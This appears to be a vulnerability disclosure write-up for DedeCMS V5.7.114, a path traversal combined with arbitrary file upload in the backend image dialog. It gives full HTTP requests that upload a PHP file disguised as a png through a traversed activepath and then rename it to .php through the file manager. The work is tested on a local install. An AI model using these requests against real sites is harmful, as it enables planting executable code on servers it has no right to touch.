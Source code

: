 # Dedecms Path traversal+arbitrary file upload(other enter)

​	The image file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708130926507.png)

​	E: \ seebug \ phpstudy_pro is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path.This time I chose E:\seebug\phpstudy_pro\WWW\127.0.0.1_9600\ as the destination path for file upload, because PHP scripts can be parsed in this way

![image-20240708113031935](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitOne.assets/image-20240708113031935.png)

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

​	vulnerability mainly appears at the compressed file upload location

![image-20240712145025480](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240712145025480.png)

```http
POST /include/dialog/select_images_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 1971
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3Mt7CAkNjyzWYBFm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_images.php?f=form1.picname&noeditor=yes&imgstick=undefined
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=267c4d98da681002ab955b10f8e0e3c3; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=1d4b8a59aa88baa3; DedeLoginTime=1720418572; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=9c25d28547e20a28; ENV_GOBACK_URL=%2Fdede%2Fcontent_list.php
Connection: close

------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="noeditor"

yes
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="activepath"

/uploads/..
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="f"

form1.picname
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="v"

picview
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgstick"

undefined
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="CKEditorFuncNum"

1
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgfile"; filename="0.php.png"
Content-Type: image/png

<?php echo 123;?>
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iwidth"

240
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iheight"

180
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundary3Mt7CAkNjyzWYBFm--
```

​	`Select_images_post. php 'did not perform sufficient filtering on the activepath parameter, so it is possible to bypass the file suffix blacklist by modifying the value of activepath to a file name with a suffix of' php ', and combined with the first two path traversal vulnerabilities to achieve arbitrary file upload vulnerabilities

![image-20240708150758976](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708150758976-1720768330908-73.png)

​	Here, you can also use the built-in file management system in the 'dedecms' backend to rename files and enable them to parse and run normally.

```http
POST /dede/file_manage_control.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 147
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:9600/dede/file_manage_view.php?fmdo=rename&filename=inde1x.Php&activepath=%2Fuploads
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=ef87ce85f5d16c9875d2c6089936835b; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=c1e0489e3c20f4bf; last_vtime=1720421835; last_vtime1BH21ANI1AGD297L1FF21LN02BGE1DNG=070401ac415b7cb7; last_vid=admin; last_vid1BH21ANI1AGD297L1FF21LN02BGE1DNG=501af9a85db1a161; OrdersId=9448BQQIAFJRAgIFAQIIXQINU1cPAAFRVAIGAwY2FGYEVQAFAAoGVlAAYHsGBgY; ENV_GOBACK_URL=%2Fmember%2Fcontent_list.php%3Fchannelid%3D6; DedeLoginTime=1720426605; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=629ca267a38c9755; Shop_De_85=626cVlNVBgkHU1FVU1QBAAFTDwVTCVJXUgkDUlNbAV8OB0QWEQxVXApTRxANCxBFCkVVRxpfRFtcARdACkYJBwsXJ1VGXQYcDyJEIFtHJXMSIXYXJgkUdycVcHBGd1ZHDgJHXiFAcw0SISBAWyE; Shop_De_78=b741AwUHVAQBCAIBUlIFVwhVWg8GXwMEAAVaClRQAgUCARBDR14HUQwNAhcXWFkVQgxHc1NDCXETdyAUBkwfVkBUCwITQw1AXV0PFCcFFVkBFFp3QCMFF3dyRgsiHCMNEHhyFgwHQXECHQoBRw5y
Connection: close

fmdo=rename&activepath=%2F240708&filename=1-240FQ50614S6.png&oldfilename=1-240FQ50614S6.png&newfilename=index1.php&imageField1.x=31&imageField1.y=6
```

![image-20240708165441039](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708165441039-1720768385667-77.png)

![image-20240708164949322](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708164949322-1720768392957-79.png)

​	Successfully modified '127.0.0.1,9600 \ 240708 \ 1-240FQ50614S6. png' to '127.0.0.1,9600 \ 240708 \ index1php'`

![image-20240708165348465](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708165348465-1720768414007-81.png)
